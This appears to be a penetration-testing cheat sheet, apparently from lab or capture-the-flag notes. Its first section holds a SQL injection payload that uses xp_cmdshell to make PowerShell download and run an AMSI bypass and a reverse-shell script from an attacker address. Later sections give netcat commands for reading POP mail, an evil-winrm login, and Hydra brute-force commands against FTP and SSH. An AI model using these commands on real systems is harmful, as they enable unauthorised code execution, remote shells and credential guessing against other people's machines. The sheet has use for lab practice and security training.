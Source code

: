 #### Random injection shell
```
a ') EXEC xp_cmdshell 'powershell.exe iex (New-Object Net.WebClient).DownloadString(''http://10.10.14.143:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://10.10.14.143:8090/Invoke-PowerShellTcp2.ps1'')'; --
```

### Webserver shells checklist
- Is the webserver running ISS, PHP? What is it running
  - ISS = .asp, .aspx
  - PHP = .php
  - Java = .jsp

### File upload
#### File upload intruder extensions list
```
/opt/SecLists/Discovery/Web-Content/web-extensions.txt
```

## Services
### FTP
- Check if login is allowed as anonymous:anonymous.

### POP read emails
```
nc -nvC <IP> <PORT>
USER <USERNAME>
PASS <PASSWORD>
LIST
RETR 1 
RETR 2
```

### MSRPC login
```
evil-winrm -u <USER> -p <PASS> -i <IP>
```

## Password Attacks
https://github.com/danielmiessler/SecLists
#### Hydra bruteforce FTP
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> -t 24 ftp://<IP>:<PORT>
```

#### Hydra bruteforce SSH
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> -t 24 ssh://<IP>:<PORT>
```
